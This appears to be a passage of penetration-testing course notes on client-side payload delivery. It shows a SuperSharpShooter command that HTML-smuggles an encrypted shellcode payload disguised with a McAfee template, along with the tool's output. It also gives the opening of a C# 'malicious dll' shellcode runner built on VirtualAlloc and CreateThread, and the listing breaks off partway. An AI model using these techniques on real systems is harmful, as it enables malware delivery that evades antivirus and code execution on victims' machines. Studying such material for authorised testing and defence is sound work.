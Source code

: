 
### Smuggling 

```bash
sudo python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile ~/Documents/OSEP/Pen300/04ClientSideWithWindowsScriptHost/shell.txt --smuggle --template mcafee --output smuggle

             _____ __                    _____ __                __
            / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
            \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
           ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /
     SUPER/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/
                              /_/

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
     SYANiDE, v3.1 Clinical Precision 

[*] Preview:  var entry_class = 'Sh'+'arp'+'Sho'+'ot'+'e'+'r';
[*] Written delivery payload to output/smuggle.js
[*] File [./output/smuggle.js] successfully loaded !  (will be smuggled in .html)
[*] Encrypted input file with key [haibrysxozefqzekgctaqwgcydmijpsr]
[*] File [./output/smuggle.html] successfully created !  
          ^^ Selected delivery method

```


## Reflective Load (Powershell)

- create project Class Library (.Net Framework)
- creating malicious dll

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace ClassLibrary1

{
    public class Class1

    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

  

        [DllImport("kernel32.dll")]

        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,

          IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  

        [DllImport("kernel32.dll")]

        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```